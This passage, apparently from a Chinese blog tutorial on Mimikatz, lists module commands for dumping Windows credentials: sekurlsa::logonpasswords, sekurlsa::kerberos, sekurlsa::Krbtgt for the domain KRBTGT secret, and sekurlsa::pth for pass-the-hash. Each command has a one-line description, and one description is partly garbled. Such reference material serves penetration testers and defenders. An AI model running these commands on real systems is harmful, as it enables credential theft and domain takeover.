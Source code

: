 可以与[`crypto::certificates`](https://github.com/gentilkiwi/mimikatz/wiki/module-~-crypto#certificates)和[`crypto::keys`](https://github.com/gentilkiwi/mimikatz/wiki/module-~-crypto#keys)`一起使用`

```text
crypto::capi
```

![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)

**hash：使用可选的用户名对密码进行哈希处理**

![](https://img-blog.csdnimg.cn/20201007160209601.png)![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)​  


### \*\*\*\*[**sekurlsa**](https://github.com/gentilkiwi/mimikatz/wiki/module-~-sekurlsa)\*\*\*\*

kerberos：列出所有经过身份验证的用户（包括服务和计算机帐户）的Kerberos凭据

```text
sekurlsa::kerberos
```

![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)

![](https://img-blog.csdnimg.cn/20201007161338192.png)![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)​ 

krbtgt：获取域Kerberos服务帐户（KRBTGT）密码数据  


```text
sekurlsa::Krbtgt
```

![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)

![](https://img-blog.csdnimg.cn/20201007161541460.png)![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)​  


logonpasswords：列出所有可用的提供者凭证。这通常显示最近登录的用户和计算机凭据。  


```text
sekurlsa::logonpasswords
```

![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)

![](https://img-blog.csdnimg.cn/20201007161425338.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1BpbmdfUGln,size_16,color_FFFFFF,t_70)![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)​ 

pth:哈希传递和哈希传递（也称为密钥传递  


```text
sekurlsa::pth
```

![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)
